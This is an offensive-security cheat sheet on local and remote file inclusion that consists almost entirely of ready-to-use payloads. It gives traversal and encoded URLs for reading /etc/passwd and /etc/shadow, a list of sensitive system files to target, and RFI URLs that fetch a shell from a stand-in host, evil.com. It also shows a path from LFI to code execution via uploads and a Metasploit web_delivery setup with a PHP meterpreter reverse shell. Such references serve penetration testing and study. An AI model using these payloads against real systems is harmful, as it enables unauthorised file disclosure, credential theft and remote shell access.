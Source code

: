 # 📂 local file inclusion

## LFI/RFI - Cheat Sheet

### Payloads

#### Basic LFI

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

#### Interesting Files

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### Basic RFI

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### LFI To RCE Via Upload

```
http://example.com/index.php?page=path/to/uploaded/file.png
```



### Metasploit Module

```
use exploit/multi/script/web_delivery
set target 1
set lhost <IP>
set srvport <PORT>
set payload php/meterpreter/reverse_tcp
exploit
```

{% hint style="info" %}
Metasploit will then generate a payload and you need to add the payload to the vulnerable parameter
{% endhint %}





***

## REFERENCES

* [GitHub: LFI-RFI Payload](https://github.com/payloadbox/rfi-lfi-payload-list)
* [GitHub: Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)
* [LFI to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/)

